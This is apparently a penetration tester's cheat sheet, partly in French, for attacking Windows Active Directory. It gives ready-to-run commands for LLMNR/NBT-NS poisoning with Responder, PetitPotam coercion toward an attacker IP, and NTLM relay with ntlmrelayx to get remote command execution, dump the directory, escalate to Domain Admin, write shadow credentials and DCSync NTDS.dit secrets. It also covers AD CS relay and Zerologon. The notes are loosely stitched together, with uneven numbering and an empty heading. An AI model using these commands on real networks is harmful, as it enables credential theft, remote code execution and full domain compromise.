

# LLMNR/NBTNS/mDNS poisoning
## 01. disable SMB in /usr/share/responder/Responder.conf
[Responder Core]
...
SMB = Off
HTTP = Off
...
# 02. poisoning
sudo responder -I eth0 -dwV
# Check for Print Spooler (PetitPotam / SpoolSample):
nxc smb <target-range> -M spooler
# check for webclient srevice
nxc smb <target-range> -M webdav
# Coercing via PetitPotam (Incoming SMB)
python3 PetitPotam.py <Attacker_IP> <Victim_IP>
# Coercing via WebDAV to get incoming HTTP traffic
python3 PetitPotam.py attacker@80/test <Victim_IP>
# 01check machine with smb signing false
nxc smb <range> --gen-relay-list smb_unsigned_ips.txt
# 02.start relay on one vulnerable machine e.g WEF
sudo impacket-ntlmrelayx -t smb://$target -smb2support
# 03.if the user exploited is admin we can dump all SAM hashes
# if not we can get all users frm the domain for example --interactive
#03.01Exploit for RCE :
ntlmrelayx.py -tf smb_unsigned_ips.txt --smb2support --socks
##→ SMB SOCKS pivot.
## 03.02check proxychain.conf
[ProxyList]
socks4 127.0.0.1 1080
## 03.02execute commands
proxychains wmiexec.py DOMAIN/RELAYED_USER@TARGET_IP -no-pass
#03.04 Exploit LDAP
ntlmrelayx.py -tf smb_unsigned_ips.txt --smb2support --interactive

# 01. find LDAP targers (LDAP signing & channel binding)
nxc ldap <DC-IPs> -M ldap-checker
## You want the module to report LDAP Signing: False and LDAPS Channel Binding: False.
## 02. dump AD
ntlmrelayx.py -t ldap://<DC_IP> --dump-ad
## 02.
# 01. get the targets
nxc http <target-range> -M adcs
ntlmrelayx.py -t ldap(s)://<dc_ip> --remove-mic --smb2support …
| Option clé | Effet | Gain |
|---|---|---|
| --add-computer <name> <pwd> --delegate-access | Ajout d’un poste + délégation | RBCD |
| --shadow-credentials --shadow-target <dc_name$> | Écriture de clés PKINIT | Shadow Creds |
| --escalate-user <user> | Modif ACL → Admin | Domain Admin |
| --interactive + nc 127.0.0.1 10111 | Shell LDAP live | LDAP SHELL |
| Flux | Action | Résultat |
|---|---|---|
| HTTP → CA Web Enrollment | Relay vers certsrv | ESC8 (cert DC) |
| HTTP → WSUS | Relay, pousse MAJ malveillante | WSUS control |
| NTLM → MSSQL | ntlmrelayx.py -t mssql://<ip> … --socks | MSSQL SOCKS |
Zerologon (safe) pour compromettre DC-A, puis
ntlmrelayx.py -t dcsync://<dcB_ip> --smb2support --auth-smb <user>:<pass>
Résultat : DCSYNC ⇒ secrets NTDS.dit.
HTTP → AD CS :
kerberrelay.py -t "http://<pkibx>/certsrv/certfnsh.asp" --socks --template DomainController -v <target$> -ip <attacker>
→ ESC9 (cert DC).
SMB → SMB / LDAP(S) : mêmes cibles que NTLM relay, utiliser kerberrelay.py.